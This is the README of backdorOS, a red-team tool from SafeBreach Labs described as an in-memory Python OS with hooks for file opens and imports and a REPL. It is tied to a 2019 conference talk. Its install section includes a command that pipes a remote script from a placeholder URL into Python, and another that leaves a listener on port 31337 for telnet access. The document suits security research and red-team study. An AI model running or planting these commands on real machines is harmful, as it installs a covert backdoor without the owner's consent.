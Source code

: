 # backdorOS

backdorOS is an in-memory OS written in Python 2.7 with a built-in in-memory filesystem, hooks for open() calls and imports, Python REPL etc.

## Install

```
$ git clone https://github.com/SafeBreach-Labs/backdoros
$ cd backdoros
$ ./backdoros.py &
$ telnet localhost 31337
```

OR

```
$ curl -fsSL http://URL/backdoros.py | python &
$ telnet localhost 31337

```

backdorOS was released as part of the [BackdorOS: The In-memory OS for Red Teams](https://texascybersummitii2019.sched.com/event/Tqsp/fr-2016-red-team-backdoros-in-memory?iframe=no&w=100%25&sidebar=no&bg=dark) talk given at Texas Cyber Summit 2019 conference by Itzik Kotler from [SafeBreach Labs](http://www.safebreach.com).

## Version
0.1.0

## License
BSD 3-Clause
